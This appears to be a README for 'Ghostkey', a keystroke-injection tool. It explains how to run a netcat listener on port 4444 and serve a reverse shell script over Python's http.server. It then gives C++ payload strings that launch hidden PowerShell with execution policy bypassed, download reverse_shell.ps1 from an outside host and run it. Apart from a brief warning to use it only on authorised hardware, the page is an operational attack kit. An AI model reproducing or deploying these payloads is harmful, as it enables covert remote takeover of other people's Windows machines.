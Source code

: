 > [!warning] **Warning**
> **Warning** These should only be used on your own hardware or environments that you are specifically allowed in.

# Usage
### Server side:
> [!info] These is a simple tutorial for Debian based  distros 🐧

You will need netcat to be installed, If its not you can follow the following instructions:
1. `sudo apt update && upgrade -y` Update all system packages and references
3. `sudo apt install netcat-traditional -y` Install NetCat
4. `nc -h` 
Once installed start the listener on port 4444 by running
```
nc -lvpn 4444
```
Command explication:
- `nc`: NetCat
- `-l`: This option makes Netcat listen for incoming connections.
- `-v`: This option makes Netcat give more verbose output.
- `-p`: This option allows you to specify the source port.
- `-n`: This option tells Netcat not to do any DNS or service lookups on any addresses, hostnames or ports.
- `4444`: This is the port number. With the `-l` option, Netcat will listen on this port
> [!warning] Remember: these will allow any connections, so be carefull were and how you deploy it
### Reverse shell script retrival:
#### With server:
go to the directory were the payload is located and run
```bash
$ python3 -m http.server 80
```
these will use the http.server built in to python3 and make the directory available to the hole network, these allows you to run the Ghostkey to retrieve the revers shell script from your pc leaving no trace to a domain or other server, Remember to change the IP: on the string

```c++
payload = "powershell -ExecutionPolicy Bypass -WindowStyle Hidden -Command \"Invoke-WebRequest -Uri 'http://192.168.0.30/reverse_shell.ps1' -OutFile 'C:\\Users\\Public\\reverse_shell.ps1'; Start-Job -FilePath 'C:\\Users\\Public\\reverse_shell.ps1'\"";
```

#### With web page or other service: 
just change the Ip into a web page for example:
```c++
payload = "powershell -ExecutionPolicy Bypass -WindowStyle Hidden -Command \"Invoke-WebRequest -Uri 'http://github.com/user/reverse_shell.ps1' -OutFile 'C:\\Users\\Public\\reverse_shell.ps1'; Start-Job -FilePath 'C:\\Users\\Public\\reverse_shell.ps1'\"";
```
